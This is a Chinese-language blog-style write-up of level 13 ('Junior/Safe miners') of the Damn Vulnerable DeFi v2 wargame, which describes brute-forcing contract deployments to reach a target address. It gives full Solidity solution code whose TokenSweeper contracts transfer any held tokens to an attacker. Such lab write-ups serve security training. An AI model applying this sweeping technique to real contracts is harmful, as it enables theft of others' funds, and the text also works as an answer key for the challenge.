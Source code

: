 ![image.png](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/b96c4f31fd1c4ee7a0111f5649539755~tplv-k3u1fbpfcp-watermark.image?)


# 13 Safe miners
通关要求：拿走所有的钱  
这个题很有趣，有人把发送到了一个空地址，实际上只是将token转移到一个没有任何内容的地址,那么我们怎么样能把钱截胡呢

不知道大家了不了解create2,也许我们可以以某种方式使用[*create2*](https://www.youtube.com/watch?v=883-koWrsO4) 生成这个地址？    
结果是不行
> 具体探索过程可看：[该死的脆弱的 DeFi V2 - #13 初级矿工 • 腹侧数字 (ventral.digital)](https://ventral.digital/posts/2022/7/2/damn-vulnerable-defi-v2-13-junior-miners)

结论是蛮力法：  
写一个将自己所有钱转给attacker的合约，然后再写一个合约for循环构造他，在js里也用for循环构造。我是两次for循环一百次也就是一共生成10000次，赌能不能生成0x79658d35aB5c38B6b988C23D02e0410A380B8D5c这个地址的合约，如果生成这关就过了，没生成就过不了

## 攻击代码：
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
contract JuniorMinersExploit {
    constructor(
        address attacker,
        IERC20 token,
        uint256 nonces
    ) {
        for (uint256 idx; idx < nonces; idx++) {
            new TokenSweeper(attacker, token);
        }
    }
}

contract TokenSweeper {
    constructor(
        address attacker,
        IERC20 token
    ) {
        uint256 balance = token.balanceOf(address(this));
        if (balance > 0) {
            token.transfer(attacker, balance);
        }
    }
}
```

![image.png](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/0479e1f9490542fcb9c386fd8d720ec7~tplv-k3u1fbpfcp-watermark.image?)